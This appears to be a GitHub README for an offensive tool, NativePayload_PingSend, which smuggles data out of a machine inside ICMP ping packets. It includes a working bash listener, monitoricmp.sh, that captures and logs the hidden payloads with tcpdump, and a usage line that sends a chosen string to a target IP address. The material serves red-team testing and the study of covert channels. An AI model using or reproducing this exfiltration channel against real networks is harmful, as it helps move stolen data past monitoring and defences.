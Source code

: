 # NativePayload_PingSend
## NativePayload_PingSend send data/string (exfiltration) to destination ip via icmp ping packets

## as you can see with this code you can send data/string via ping request to linux side via ping linux ipaddress, and in linux side with tcpdump you can dump those string/data in ping packets

you can use "monitoricmp.sh" in linux side to dump and log those strings too

```
#!/bin/bash

# Define the log file
LOGFILE="icmp_packets.log"

# Function to process each packet
process_packet() {
    while IFS= read -r line; do
        # Extract date and time
        datetime=$(date "+%Y-%m-%d %H:%M:%S")
        
        # Extract packet header and payload
        header=$(echo "$line" | grep -oP '^.*? IP .*? > .*?: ICMP echo request')
        payload=$(echo "$line" | grep -oP '0x[0-9a-f]+:.*')

        # Display the packet details
        #echo "[$datetime] Header: $header"
        echo "Payload: $payload"
        echo "[$datetime] Header: $header" >> "$LOGFILE"
        echo "Payload: $payload" >> "$LOGFILE"
    done
}

# Run tcpdump and process packets
tcpdump -i any -nn -XX icmp | process_packet
```

_____________________________________________

           md5 info 74718db7bc753bd2161bf46b0d06a31e => NativePayload_PingSend.exe


### Source code tested by .Netframework 4.7.2 

### Target Platform x64 is ok.

    usage: NativePayload_PingSend.exe ipaddress "string"    
      example NativePayload_PingSend.exe 192.168.56.101 "your string which want to send to target ipaddress via icmp ping packets"


###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp2.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/netmon3.png)

###  NativePayload_PingSend and monitoricmp.sh
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/bashicmp.png)   


<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_PingSend"/></a></p>
